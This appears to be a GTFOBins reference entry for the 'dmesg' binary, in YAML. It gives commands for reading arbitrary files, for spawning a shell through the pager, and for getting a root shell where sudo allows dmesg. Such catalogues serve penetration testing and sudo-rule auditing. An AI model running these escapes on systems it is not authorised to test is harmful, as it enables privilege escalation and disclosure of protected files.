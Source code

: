 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        dmesg -F "$LFILE"
  shell:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        dmesg -H
        !/bin/sh
  sudo:
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo dmesg -H
        !/bin/sh
---
```

